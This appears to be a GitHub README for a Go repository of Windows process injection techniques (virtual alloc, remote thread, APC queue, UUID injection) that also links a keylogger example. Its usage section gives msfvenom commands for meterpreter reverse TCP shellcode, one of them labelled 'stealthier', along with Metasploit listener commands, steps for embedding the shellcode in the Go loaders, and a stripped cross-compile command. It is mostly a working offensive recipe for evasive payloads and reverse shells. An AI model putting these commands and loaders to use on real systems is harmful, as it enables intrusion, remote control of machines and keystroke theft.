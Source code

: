 # go-inject

Process injection techniques written in Go. I've also expanded this repo to include some general offense techniques in Go.

## Examples

Process Injection

* [Classic virtual alloc](examples/x64/valloc/valloc.go)
* [Heap](examples/x64/heap/heap.go)
* [Remote Thread Injection](examples/x64/remote-thread/remote_thread.go)
* [APC Queue Code Injection](examples/x64/queue-user-apc/queue.go)
* [UUID Injection - Used by Lazarus 2021](examples/x64/uuid/uuid.go)

Other offensive techniques:

* [Hook detection](examples/x64/detect-hooks/detect-hooks.go)
* [Keylogger](examples/x64/keylog/keylog.go)

## Usage

Use msfvenom to generate shellcode:
```bash
# Option 1: Testing with calculator.
msfvenom -p windows/x64/exec CMD=calc.exe -f hex

# Option 2: Reverse tcp stager.
msfvenom -p windows/x64/meterpreter/reverse_tcp -f hex -o rev.hex LHOST=127.0.0.1 LPORT=4444

# Option 3: Stageless payload - stealthier.
msfvenom -p windows/x64/meterpreter_reverse_tcp -f hex -o rev.hex LHOST=127.0.0.1 LPORT=4444
```

Place payload string from above command within one of the example .go files replacing the content of the `payload` variable. If using uuid example, use [shellcode-to-uuids](helpers/shellcode-to-uuids.go) to convert to payload.

Start listener:

```bash
use payload/windows/x64/meterpreter/reverse_tcp
set LHOST 127.0.0.1
set LPORT 4444
to_handler
```

## Build Examples

Linux:
```bash
env GOOS=windows go build -ldflags="-s -w" -trimpath examples/x64/uuid/uuid.go
```

## References

* https://blog.sunggwanchoi.com/eng-uuid-shellcode-execution/
* https://github.com/Adepts-Of-0xCC/VBA-macro-experiments/blob/main/EDRHookDetector.vba
* https://github.com/brimstone/go-shellcode
* https://github.com/sysdream/hershell
* https://github.com/yoda66/MalwareDevTalk
* https://labs.jumpsec.com/2019/06/20/bypassing-antivirus-with-golang-gopher-it/
* https://medium.com/@justen.walker/breaking-all-the-rules-using-go-to-call-windows-api-2cbfd8c79724
* https://posts.specterops.io/adventures-in-dynamic-evasion-1fe0bac57aa
* https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/
* https://www.ired.team/offensive-security/code-injection-process-injection/apc-queue-code-injection